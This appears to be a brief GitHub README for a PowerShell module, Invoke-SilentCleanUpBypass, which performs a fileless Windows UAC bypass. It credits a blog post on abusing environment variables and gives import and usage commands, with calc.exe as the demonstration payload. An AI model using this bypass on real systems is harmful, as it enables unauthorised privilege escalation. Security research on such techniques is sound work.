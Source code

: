 # Invoke-SilentCleanUpBypass
Bypass UAC fileless  
Credits https://tyranidslair.blogspot.co.uk/2017/05/exploiting-environment-variables-in.html  

## Usage
* `import-module Invoke-SilentCleanUpBypass.ps1`  
* `Invoke-SilentCleanUpBypass -Command "powershell -c calc.exe"`  
